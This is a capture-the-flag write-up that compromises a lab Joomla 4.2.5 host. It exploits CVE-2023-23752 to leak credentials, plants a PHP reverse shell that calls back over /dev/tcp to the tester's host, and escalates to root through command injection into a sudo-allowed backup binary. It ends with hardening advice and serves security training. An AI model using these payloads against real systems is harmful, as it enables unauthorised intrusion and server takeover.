In this walkthrough, we will be compromising Samurai, an easy-difficulty Linux machine from Hack Smarter Labs. The engagement starts with VPN access to a single host running SSH and an Apache web server, and no credentials. The web server hosts Joomla 4.2.5, which is vulnerable to CVE-2023-23752, an improper access check that hands the site's user accounts and its database credentials to an unauthenticated request. That database password also opens the Super User account, so we log into the Joomla admin panel as `Miyamoto` and write a PHP reverse shell into a template file for a foothold as `www-data`. From there `sudo -l` shows a NOPASSWD entry for a custom backup binary, and `strings` shows it building a `mariadb-dump` command around our argument. Command injection through that argument gives us root.


Created by: [streetcoder](https://www.hacksmarter.org/courses/3b3f3073-3242-4aee-9bcd-0fb058ce4e13)

Let's get started.

## Objective

As part of a penetration test, your team identified an interesting web server. Your task is to enumerate the target, establish an initial foothold, and escalate privileges to root.

You have been provisioned VPN access to the client environment. No initial credentials are provided.

## Scope

**Target:** `10.1.195.249`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.195.249 -- -sC -sV
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c3:5a:83:50:80:9a:61:37:05:b7:45:96:cb:ab:1d:1e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDnWIbBLcbSbZZmw8nDh5DOA9ecneGMU8Ff1Rm8Frp71DcloANVhYkmErZ3+o839XNGO+k2tmXeNcwJ8jICj06M=
|   256 6b:15:12:60:1b:21:d1:bf:7e:b8:c0:e8:d7:7e:7b:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP9JIv57fNRXYSBb4BDtI+WNZG/hfJuGHaaMLL7Iu9PG
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 3E18B73692FF5A74F54EFFB2E047C8CB
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Samurai
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



*RustScan handing off to Nmap: SSH on 22 and Apache on 80 serving a site titled Samurai*

SSH is on 22 and Apache is on 80. Before turning to the web server, we check whether SSH accepts password authentication.

```
ssh root@10.1.195.249
```

```
The authenticity of host '10.1.195.249 (10.1.195.249)' can't be established.
ED25519 key fingerprint is: SHA256:rdmbm0HTWKohouYzcOLhjKYPv+Rt8zYkos/QJwi2FBM
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.1.195.249' (ED25519) to the list of known hosts.
root@10.1.195.249's password: 
```



*SSH prompting for a password, confirming password authentication is enabled*

SSH prompts for a password, so password authentication is on. With nothing to try against it, we move to the web server.

## HTTP (Port 80)

We browse to the site on port 80.



*The Samurai front page served on port 80*

The front page is static with nothing to interact with, so we enumerate directories.

```
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt -u 'http://10.1.195.249'
```

```
301      GET        9l       28w      312c http://10.1.195.249/plugins => http://10.1.195.249/plugins/
301      GET        9l       28w      310c http://10.1.195.249/cache => http://10.1.195.249/cache/
301      GET        9l       28w      315c http://10.1.195.249/components => http://10.1.195.249/components/
301      GET        9l       28w      310c http://10.1.195.249/media => http://10.1.195.249/media/
301      GET        9l       28w      308c http://10.1.195.249/api => http://10.1.195.249/api/
301      GET        9l       28w      311c http://10.1.195.249/assets => http://10.1.195.249/assets/
301      GET        9l       28w      314c http://10.1.195.249/templates => http://10.1.195.249/templates/
301      GET        9l       28w      318c http://10.1.195.249/administrator => http://10.1.195.249/administrator/
301      GET        9l       28w      312c http://10.1.195.249/modules => http://10.1.195.249/modules/
301      GET        9l       28w      313c http://10.1.195.249/includes => http://10.1.195.249/includes/
301      GET        9l       28w      313c http://10.1.195.249/language => http://10.1.195.249/language/
301      GET        9l       28w      308c http://10.1.195.249/tmp => http://10.1.195.249/tmp/
301      GET        9l       28w      311c http://10.1.195.249/images => http://10.1.195.249/images/
```



*feroxbuster returning a Joomla directory layout, including /administrator*

`/components`, `/modules`, `/templates`, and `/administrator` are the standard Joomla layout. We load `/administrator`.



*The Joomla administrator login panel at /administrator*

The Joomla login panel confirms the platform. joomscan fingerprints a Joomla installation and checks the version it finds against a database of known core issues, along with the admin page, exposed config files, and common backup and log files.

```
joomscan -u http://10.1.195.249/
```

```
Processing http://10.1.195.249/ ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.5

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.1.195.249/administrator/

[+] Checking robots.txt existing
[++] robots.txt is not found

[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file                                                                                                                                                    
[++] Readable config files are not found   
```



*joomscan fingerprinting the installation as Joomla 4.2.5*

joomscan puts the installation at Joomla 4.2.5 and reports the core as not vulnerable. We look the version up ourselves anyway.

## Access as Miyamoto

CVE-2023-23752 is an improper access check in Joomla's web services API, present in versions 4.0.0 through 4.2.7. The API router honours a `public=true` query parameter without checking the session behind the request, so endpoints that should require authentication answer anonymously. `/v1/users` returns the site's user accounts and `/v1/config/application` returns the application configuration, database credentials included. We run [K3ysTr0K3R's exploit](https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT), which queries both.

```
python3 CVE-2023-23752.py -u http://10.1.195.249/
```

```
[*] Checking if target is vulnerable
[+] Target is vulnerable
[*] Launching exploit against: http://10.1.195.249/
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for usernames at path: /api/index.php/v1/users?public=true
[+] Target is vulnerable for usernames
[+] Gathering user(s) for: http://10.1.195.249/
[+] Name: Oda
[+] Username: Miyamoto
[+] Email: oda@local.local
[+] Group: Super Users
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for credentials at path: /api/index.php/v1/config/application?public=true
[+] Target is vulnerable for credentials
[+] Gathering credential(s) for: http://10.1.195.249/
[+] User: joomla425
[+] Password: Pa847word987@Joomla456
```



*The exploit returning the Super User Miyamoto and the database credentials from the application configuration*

Two separate endpoints answer. One names a single Super User, `Miyamoto`. The other gives up `joomla425` and the password `Pa847word987@Joomla456`, which is the database account the site connects with rather than a Joomla login, and it fails against the admin panel. The password is the part worth reusing, and pairing it with `Miyamoto` logs us in.



*The Joomla administrator dashboard after logging in as Miyamoto*

## Shell as www-data (user.txt)

A Joomla Super User can edit template files from the admin panel, and a template file is PHP the site executes on request, so the admin session is enough to run our own code on the server. Under System > Templates we open Cassiopeia Details and Files, click New File, pick `html/mod_custom` as the location, name it `rev-shell`, and select `.php` as the file type.

Into it goes a short PHP payload that calls back to our host.

```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.200.52.176/1337 0>&1'");
```

Update the IP and port to your own.

We save the file.



*rev-shell.php saved under the Cassiopeia template with the payload in place*

We start Penelope, a reverse shell handler that upgrades the session to a full TTY on its own, and leave it listening on our port.

```
penelope -p 1337
```

Requesting the file is what runs it, so we browse to it directly.

```
http://10.1.195.249/templates/cassiopeia/html/mod_custom/rev-shell.php
```

The page hangs, and Penelope catches the shell.

```
whoami
```

```
www-data
```



*Penelope receiving the reverse shell as the www-data user*

The user flag is in `/var/www`.



*user.txt listed in /var/www*

## Shell as root (root.txt)

We check what `www-data` is allowed to run under sudo.

```
sudo -l
```

```
Matching Defaults entries for www-data on streetcoder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on streetcoder:
    (root) NOPASSWD: /opt/backup/DbMaria
```



*sudo -l showing www-data can run /opt/backup/DbMaria as root without a password*

`www-data` can run `/opt/backup/DbMaria` as root with no password. It is an ELF binary rather than a script, so we pull the printable strings out of it to see what it does.

```
strings /opt/backup/DbMaria
```

```
/lib64/ld-linux-x86-64.so.2
__cxa_finalize
__libc_start_main
system
setuid
snprintf
__stack_chk_fail
libc.so.6
GLIBC_2.2.5
GLIBC_2.4
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
Usage: %s <database>
mariadb-dump --socket=/run/mysqld/mysqld.sock -u root %s > /tmp/backup.sql
```



*strings showing the system and snprintf imports alongside the mariadb-dump command template*

The binary drops our argument into that last line where the `%s` sits, then passes the result to `system`. `system` runs whatever it is given as a shell command, so our argument becomes part of that command.

A semicolon ends the `mariadb-dump` command and starts one of our own, and a trailing `#` throws away the `> /tmp/backup.sql` on the end, which would otherwise capture our shell's output.

```
sudo /opt/backup/DbMaria 'test; /bin/bash #'
```

We check who we are.

```
whoami
```

```
root
```

We are root, and the final flag is in `/root`.



*A root shell on the host with root.txt listed in /root*

## Final Thoughts

joomscan told me the core was not vulnerable, and it was wrong. The version number above that line was Joomla 4.2.5, and that was the part worth keeping. I searched it myself and found CVE-2023-23752. Everything after that was quick, because the sudo binary showed me the command it built.

A public-facing CMS needs its core patched on a schedule, not just its extensions. The database password and the admin password should never be the same. A Joomla Super User can write files straight into the web root, which is code execution on the server. Those accounts need multi-factor authentication in front of them. A program you can run through sudo should never drop user input straight into a shell command. Build the command without a shell, or escape the argument first.

— 0xB1rd
